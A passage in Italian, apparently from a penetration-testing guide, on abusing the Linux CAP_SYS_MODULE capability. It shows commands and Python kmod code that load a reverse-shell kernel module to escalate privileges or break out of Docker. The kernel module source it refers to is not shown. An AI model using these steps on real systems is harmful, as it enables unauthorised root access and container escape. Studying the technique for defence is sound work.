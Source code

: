 **Esempio con binario**

Nell'esempio seguente, il binario **`python`** ha questa capacità.
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_module+ep
```
Per impostazione predefinita, il comando **`modprobe`** controlla l'elenco delle dipendenze e i file di mappatura nella directory **`/lib/modules/$(uname -r)`**.\
Per sfruttare questo, creiamo una cartella falsa **lib/modules**:
```bash
mkdir lib/modules -p
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```
Poi **compila il modulo del kernel che puoi trovare 2 esempi qui sotto e copialo** in questa cartella:
```bash
cp reverse-shell.ko lib/modules/$(uname -r)/
```
Infine, esegui il codice python necessario per caricare questo modulo del kernel:
```python
import kmod
km = kmod.Kmod()
km.set_mod_dir("/path/to/fake/lib/modules/5.0.0-20-generic/")
km.modprobe("reverse-shell")
```
**Esempio 2 con binario**

Nel seguente esempio il binario **`kmod`** ha questa capacità.
```bash
getcap -r / 2>/dev/null
/bin/kmod = cap_sys_module+ep
```
Il che significa che è possibile utilizzare il comando **`insmod`** per inserire un modulo del kernel. Segui l'esempio qui sotto per ottenere una **reverse shell** abusando di questo privilegio.

**Esempio con ambiente (Docker breakout)**

Puoi controllare le capacità abilitate all'interno del contenitore docker usando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente puoi vedere che la capacità **SYS_MODULE** è abilitata.
